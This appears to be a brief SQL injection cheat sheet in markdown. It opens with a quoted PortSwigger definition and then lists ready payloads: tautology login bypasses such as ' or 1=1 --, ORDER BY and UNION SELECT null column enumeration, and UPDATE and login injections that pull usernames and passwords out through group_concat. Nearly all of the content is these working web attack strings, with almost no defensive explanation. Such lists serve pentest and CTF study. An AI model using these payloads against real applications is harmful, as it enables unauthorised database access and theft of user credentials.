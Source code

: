 SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. It generally allows an attacker to view data that they are not normally able to retrieve. This might include data belonging to other users, or any other data that the application itself is able to access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior.
	- PortSwigger

#### Syntax
```bash
' or 1=1 --

     - view all database content or login as the first user in the database

  

[value]'--

     - view all database that has the same as the value if the application goal is to show items

  

' order by 1

' order by 2

.. so on

  

or 

  

' union select null--

' union select null,null--

.. so on

     - determining the number of column of the current table







POST request injection

     - url on the top or using proxy

  

UPDATE request injection:

     - myEmail', nickName =@@version()';-- -

     - myEmail', nickName =(select group_concat(username,password) from users)';-- -

  

LOGIN

     - ' union select 1,group_concat(password) from users;-- -

     - 1 or 1=1;-- -

     - 1' or 1=1;-- -
```